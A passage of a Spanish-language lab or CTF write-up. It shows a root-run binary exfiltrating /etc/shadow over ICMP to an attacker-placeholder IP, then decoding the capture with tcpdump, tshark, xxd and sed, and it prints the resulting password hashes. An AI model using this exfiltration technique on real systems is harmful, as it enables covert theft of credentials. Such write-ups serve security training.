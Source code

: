 **Cuenta los paquetes enviados**.

Por lo que podemos utilizar esto para exfiltrar archivos ejecutandolo como `root`, vamos a probar a intentar mandarnos por datos `ICMP` el archivo `shadow`.

> ESCUCHA ICMP HOST

```shell
sudo tcpdump -i <INTERFAZ_RED> icmp -w capture.pcap 
```

> ENVIO DE ARCHIVO VICTIMA

```shell
sudo /usr/local/sbin/sendfilebyping <IP_ATTACKER> /etc/shadow
```

Si volvemos a donde tenemos la escucha veremos que el archivo se ha generado de forma correcta:

```
capture.pcap
```

Ahora vamos a filtrar toda la informacion para verlo de forma clara:

```shell
tshark -r capture.pcap -Y "icmp" -T fields -e data.data | xxd -r -p | tr -d '\n' | sed 's/\(.\{79\}\)\(.\)/\2/g' | sed 's/:::/\n/g'
```

Info:

```
Running as user "root" and group "root". This could be dangerous.
Warning: program compiled against libxml 212 using older 209
root:$y$j9T$1/mbuD0Ul36emctpH9BZv.$ZDPIR4UtJ2FlOmtGdoXajvpu.CXH4GZJxG/mu68A.u3:19056:0:99999:7
daemon:*:19056:0:99999:7
bin:*:19056:0:99999:7
sys:*:19056:0:99999:7
sync:*:19056:0:99999:7
games:*:19056:0:99999:7
man:*:19056:0:99999:7
lp:*:19056:0:99999:7
mail:*:19056:0:99999:7
news:*:19056:0:99999:7
uucp:*:19056:0:99999:7
proxy:*:19056:0:99999:7
www-data:*:19056:0:99999:7
backup:*:19056:0:99999:7
list:*:19056:0:99999:7
irc:*:19056:0:99999:7
gnats:*:19056:0:99999:7
nobody:*:19056:0:99999:7
_apt:*:19056:0:99999:7
systemd-timesync:*:19056:0:99999:7
systemd-network:*:19056:0:99999:7
systemd-resolve:*:19056:0:99999:7
messagebus:*:19056:0:99999:7
avahi-autoipd:*:19056:0:99999:7
sshd:*:19056:0:99999:7
pinger:$y$j9T$MyNLWRrYtqxcMV9mDdz1O.$SqqoD/bofMbYohPuRVCrHUBkXgv24HpFb43SYa0JkP3:19056:0:99999:7
systemd-coredump:!*:19056
```
